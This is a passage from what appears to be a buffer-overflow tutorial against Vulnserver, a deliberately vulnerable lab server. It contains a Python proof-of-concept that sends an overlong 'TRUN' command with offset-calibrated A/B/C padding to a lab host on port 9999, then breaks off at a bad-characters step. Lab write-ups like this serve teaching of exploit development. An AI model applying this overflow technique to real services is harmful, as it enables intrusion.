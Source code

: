 ![Vulnserver_2](/static/img/01/3.png)


Update the PoC script the following: First send 2006 A character, then send 4 B, then C characters.

```python 
#!/usr/bin/python
import socket
import struct

payload = 'A' * 2006 + "B" * 4 + "C" * (3500-2006-4)

try:
    print "\nSending tons of random bytes..."
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('192.168.0.24',9999))
    s.recv(1024)
    s.send(('TRUN .' + payload + '\r\n'))
    s.recv(1024)
    s.send('EXIT\r\n')
    s.close()
    print "\nDone! Wonder if we got that shell back?"
except:
    print "Could not connect to 9999 for some reason..."

```

### Check bad characters
